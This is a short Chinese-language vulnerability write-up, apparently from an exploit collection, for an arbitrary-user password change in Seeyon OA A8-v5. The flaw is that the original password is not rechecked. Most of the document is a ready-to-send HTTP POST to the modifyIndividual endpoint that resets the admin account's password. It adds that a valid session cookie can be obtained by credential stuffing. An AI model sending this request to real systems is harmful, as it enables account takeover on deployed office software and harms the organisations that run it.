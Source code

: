 # 致远OA A8-v5 任意用户密码修改

### 一、漏洞简介

致远A8-V5在设计时存在逻辑错误，在上一步对原始密码进行验证后，下一步不再检测原始密码，从而直接修改用户密码，导致平行权限的越权漏洞。

### 二、漏洞影响

致远OA A8-v5

### 三、复现过程

POST如下数据


```bash
POST /seeyon/individualManager.do?method=modifyIndividual HTTP/1.0
Accept: text/html, application/xhtml+xml, */*
Referer: http://url/seeyon/individualManager.do?method=managerFrame
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Content-Type: application/x-www-form-urlencoded
Proxy-Connection: Keep-Alive
Pragma: no-cache
Content-Length: 86
DNT: 1
Host: 127.0.0.1
Cookie: JSESSIONID=DA71A65B3AAD45823A1FADAB80A3E685; Hm_lvt_49c0fa7f96aa0a5fb95c62909d5190a6=1419221849,1419232608; avatarImageUrl=8469117046183055270; loginPageURL="/main.do"
individualName=admin&formerpassword=123456&nowpassword=wy123456&validatepass=wy123456
```

individualName为用户名

注意，此处需要以一个合法的JSESSIONID发送如上数据即可修改任意用户密码，合法的JSESSIONID由撞库得出。

本次证明演示中修改的用户为admin，修改为wy123456